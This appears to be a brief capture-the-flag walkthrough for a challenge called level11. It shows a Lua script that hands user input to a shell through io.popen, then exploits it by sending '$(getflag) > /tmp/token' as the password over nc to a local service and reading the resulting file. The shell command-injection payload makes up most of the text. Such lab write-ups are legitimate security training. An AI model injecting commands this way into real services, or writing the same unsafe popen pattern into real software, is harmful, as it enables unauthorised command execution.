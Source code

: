 ## level11

Look at the line of `level11.lua`:
```lua
...
prog = io.popen("echo "..pass.." | sha1sum", "r")
...
```

You're overthinking! The solution is really simple:
```bash
nc localhost 5151
Password: $(getflag) > /tmp/token
```

And get your token! 
```bash
cat /tmp/token
```